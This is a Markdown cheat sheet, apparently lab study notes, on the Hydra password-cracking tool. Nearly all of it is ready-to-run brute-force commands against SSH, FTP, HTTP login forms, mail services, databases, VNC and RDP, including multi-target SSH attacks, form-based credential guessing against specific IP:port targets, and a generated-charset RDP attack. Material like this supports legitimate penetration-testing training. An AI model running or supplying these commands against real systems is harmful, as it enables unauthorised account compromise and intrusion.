 ## Basic usage
``` bash
hydra [login_options] [password_options] [attack_options] [service_options]
```
* `-l <username>`  / `-L useranems.tx`
* `-p <password>` / `-P passwords.txt`
* `-t <number of parallel tasks (threads)>` 
* `-f` Fast mode: Stop the attack after the first successful login is found.
* `-s <port>`
* `service://server` Service (e.g., `ssh`, `http`, `ftp`) and the target server's address or hostname.
---
## Hydra Services

| Hydra Service   | Example Command                                                                                                   |
| --------------- | ----------------------------------------------------------------------------------------------------------------- |
| `ftp`           | `hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100`                                                |
| `ssh`           | `hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100`                                                 |
| `http-get/post` | `hydra -l admin -P passwords.txt www.example.com http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"` |
| `smtp`          | `hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com`                                             |
| `pop3`          | `hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com`                                  |
| `imap`          | `hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com`                                  |
| `mysql`         | `hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100`                                               |
| `mssql`         | `hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100`                                                 |
| `vnc`           | `hydra -P /path/to/password_list.txt vnc://192.168.1.100`                                                         |
| `rdp`           | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`                                                |

---
#### SSH
Targeting Multiple SSH Servers:
``` bash
hydra -l root -p toor -M targets.txt ssh
```
#### HTTP 
POST `hydra [options] target http-post-form "path:params:condition_string"`
* failure conditions (`F=...`) it can be a word or http request status code
* success condition (`S=...`) it can be a word or http request status code
``` bash
hydra -L usernames.tx -P passwords.txt -f "http-post-form://94.237.60.32:33898/:username=^USER^&password=^PASS^:F=Invalid credentials"
# OR
hydra -L usernames.txt -P passwords.txt -f 94.237.60.32 -s 33898 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```
GET
``` bash
hydra -l basic-auth-user -P passwords.txt 94.237.53.3 http-get / -f -s 58756
# OR
hydra http-get://94.237.53.3:58756/ -l basic-auth-user -P passwords.txt
```
#### RDP
password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers.
``` bash
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
---
